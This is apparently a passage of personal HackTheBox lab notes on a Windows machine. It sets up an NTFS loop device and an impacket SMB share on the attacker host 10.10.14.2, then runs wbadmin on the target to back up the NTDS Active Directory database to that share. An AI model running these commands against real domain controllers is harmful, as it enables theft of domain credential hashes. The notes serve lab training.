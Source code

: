 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110202212.png)

```
sudo mkfs.ntfs /dev/loop0
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110202259.png)

```
sudo mount /dev/loop0 smb/
```

```
mount | grep smb
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110202412.png)

Re-running impacket command. 

```
sudo smbserver.py -smb2support -user ippsec -password PleaseSubscribe SendMeYoData $ (pwd)
```

Re-running wbadmin command:

```
echo y | wbadmin start backup -backuptarget:\\10.10.14.2\SendMeYoData -include:c: \windows\ntds\
```

This fails again because impacket doesn't handle ntfs well. 

Editing samba to create a windows fileshare from linux

`vi /etc/samba/smb.conf`
![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110203054.png)
